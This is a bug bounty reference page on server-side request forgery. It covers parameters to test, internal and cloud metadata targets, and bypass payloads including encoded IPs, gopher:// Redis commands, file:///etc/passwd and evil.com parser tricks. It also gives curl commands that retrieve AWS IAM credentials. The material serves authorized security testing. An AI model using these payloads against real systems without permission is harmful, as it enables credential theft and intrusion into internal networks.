


> Source: https://bugbounty.info/Attack-Surface/Web/SSRF/index

# Server-Side Request Forgery (SSRF)

SSRF is making the server send HTTP requests on your behalf. The server has network access you don't: internal services, cloud metadata endpoints, localhost admin panels, other microservices behind the firewall. Control where the server makes requests and you're operating from inside the network.

Severity depends entirely on what's reachable from the server's network position. On a modern cloud deployment that usually means cloud metadata endpoints with IAM credentials. On older architecture with internal services, the blast radius can be enormous.

## Where to Find SSRF

SSRF hides anywhere the application fetches external content. Some obvious, some not.



## Testing Methodology

### Step 1: Identify the Injection Point

Look for any parameter that takes a URL or hostname:

```text
url=
uri=
path=
src=
href=
link=
callback=
redirect=
webhook=
feed=
proxy=
image=
file=
document=
host=
domain=
```

Also check request headers. Some apps use `X-Forwarded-Host`, `X-Original-URL`, or custom headers to determine where to make backend requests.

### Step 2: Confirm the Request is Server-Side

Confirm the server is actually fetching the URL (not the browser doing it client-side):

```text
url=https://COLLABORATOR-ID.burpcollaborator.net
```

If you get a DNS lookup and HTTP request from the server's IP, not your browser's IP, it's server-side.

No Collaborator? Use:

- `https://webhook.site/YOUR-ID`
- `https://pipedream.net/YOUR-ID`
- A VPS running `python3 -m http.server 80`

### Step 3: Test Internal Targets

Once you've confirmed SSRF, test what you can reach:

```bash
# Cloud metadata endpoints
http://169.254.169.254/latest/meta-data/              # AWS
http://169.254.169.254/metadata/instance?api-version=2021-02-01  # Azure (needs Metadata: true header)
http://metadata.google.internal/computeMetadata/v1/    # GCP (needs Metadata-Flavor: Google header)
 
# Localhost services
http://127.0.0.1:80
http://127.0.0.1:8080
http://127.0.0.1:443
http://127.0.0.1:3000
http://127.0.0.1:6379          # Redis
http://127.0.0.1:9200          # Elasticsearch
http://127.0.0.1:27017         # MongoDB
http://127.0.0.1:5432          # PostgreSQL
http://127.0.0.1:11211         # Memcached
 
# Internal ranges
http://10.0.0.1
http://172.16.0.1
http://192.168.1.1
```

### Step 4: Bypass Filters

Almost every SSRF endpoint has some kind of URL validation. Here's the bypass playbook.

**IP address representations:**

```bash
# All of these resolve to 127.0.0.1
http://2130706433/            # Decimal
http://0x7f000001/            # Hex
http://0177.0000.0000.0001/   # Octal
http://127.1/                 # Shortened
http://127.0.0.1.nip.io/      # DNS that resolves to 127.0.0.1
http://[::1]/                 # IPv6 localhost
http://0/                     # Some systems interpret as 0.0.0.0
http://127.127.127.127/       # Alternative loopback
```

**URL parsing confusion:**

```bash
# Credential section abuse
http://target.com@evil.com    # Some parsers use evil.com as the host
http://evil.com#@target.com   # Fragment confusion
 
# Protocol tricks
gopher://127.0.0.1:6379/_*1%0d%0a...   # Redis commands via gopher
dict://127.0.0.1:6379/INFO              # Redis info via dict
file:///etc/passwd                       # Local file read
 
# Double encoding
http://127.0.0.1/%252f                  # %25 = %, so %252f = %2f = /
 
# URL shorteners as redirect
http://bit.ly/YOUR-REDIRECT -> http://169.254.169.254/...
```

**DNS rebinding:**

When the app validates DNS resolution at request time but you can change where the domain points between validation and the actual request:



Use `rbndr.us` or `1u.ms` to set up DNS rebinding with controlled TTLs.

## Blind SSRF

You can make the server fetch URLs but can't see the response. Frustrating but not a dead end.

**Confirming blind SSRF:**

- OOB via Collaborator/webhook.site. You see the request, confirming the fetch happened
- Timing differences. Internal hosts respond faster, non-existent hosts time out
- Error messages. Different errors for "host unreachable" vs "connection refused" vs "200 OK" let you map internal services

**Exploiting blind SSRF:**

- Cloud metadata endpoints that return credentials in URL path segments (AWS IMDSv1)
- Internal services that perform actions on receipt of a request (Elasticsearch delete by query, Redis SLAVEOF)
- SSRF-to-XSS: if the response is reflected anywhere (even in logs the admin sees)

## Cloud Metadata Exploitation

This is the SSRF escalation path that produces criticals. Full details in [SSRF -> Cloud Metadata -> RCE](../../../Chains/SSRF-to-Cloud-RCE), but quick reference:

```bash
# AWS: grab IAM role credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Returns the role name. Then:
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE-NAME
# Returns AccessKeyId, SecretAccessKey, SessionToken
 
# Verify what the creds can do
aws sts get-caller-identity
aws s3 ls
aws iam list-attached-user-policies --user-name $(aws sts get-caller-identity --query Arn --output text | cut -d/ -f2)
```

**IMDSv2 note:** AWS IMDSv2 requires a PUT request to get a session token first. Standard SSRF through URL parameters can't make PUT requests. But if your SSRF vector supports arbitrary HTTP methods (webhooks, some PDF generators, gopher:// protocol), IMDSv2 is still exploitable:

```bash
# Step 1: Get token via PUT
PUT http://169.254.169.254/latest/api/token
Headers: X-aws-ec2-metadata-token-ttl-seconds: 21600
 
# Step 2: Use token to fetch creds
GET http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE-NAME
Headers: X-aws-ec2-metadata-token: TOKEN-FROM-STEP-1
```

## Impact Statement Template

> The application at `[URL]` is vulnerable to server-side request forgery via the `[parameter]` parameter on the `[endpoint]` endpoint. An attacker can make the server send HTTP requests to arbitrary hosts, including internal network addresses and cloud infrastructure metadata endpoints.
> 
> I confirmed access to [the AWS instance metadata service / internal services on the following ports / localhost admin panel at port X] from the server's network position. [If credentials obtained: Using the IAM credentials returned by the metadata service, I confirmed the following permissions: {list S3 buckets / read from DynamoDB / invoke Lambda functions / etc.}]
> 
> This effectively allows an attacker to [escalate to internal network access / obtain cloud infrastructure credentials / interact with internal services] from an unauthenticated external position.

## Checklist

- Identify all parameters accepting URLs, hostnames, or file paths
- Confirm server-side fetch with OOB callback
- Test cloud metadata endpoints (AWS, Azure, GCP)
- Test localhost on common ports
- Test internal IP ranges (10.x, 172.16.x, 192.168.x)
- Try filter bypasses: IP encoding, DNS rebinding, redirect chains, protocol switching
- For blind SSRF: use timing, error differentials, and OOB to map internal hosts
- If creds obtained: enumerate permissions and document the full chain
- Check for IMDSv2 enforcement (AWS) and equivalent restrictions on other clouds

## Public Reports

Real-world SSRF findings across bug bounty programs:

- Blind SSRF in HackerOne Integrations via Ruby resolver bypass - [HackerOne #287245](https://hackerone.com/reports/287245)
- SSRF in Search.gov via url parameter with filter bypass - [HackerOne #514224](https://hackerone.com/reports/514224)
- Blind SSRF on Cloudflare via misconfigured source code scraping - [HackerOne #1467044](https://hackerone.com/reports/1467044)
- SSRF on U.S. Dept of Defense via Confluence reaching internal servers - [HackerOne #326040](https://hackerone.com/reports/326040)

## See Also

- [SSRF -> Cloud Metadata -> RCE](../../../Chains/SSRF-to-Cloud-RCE)
- [IAM Privilege Escalation](../../../Attack-Surface/Cloud/AWS/IAM-Privilege-Escalation)
- [DOM XSS](../../../Attack-Surface/Web/Injection/XSS/DOM-XSS) (SSRF via PDF generators can lead to XSS)
- [Burp Suite](../../../Tooling/Burp-Suite/)
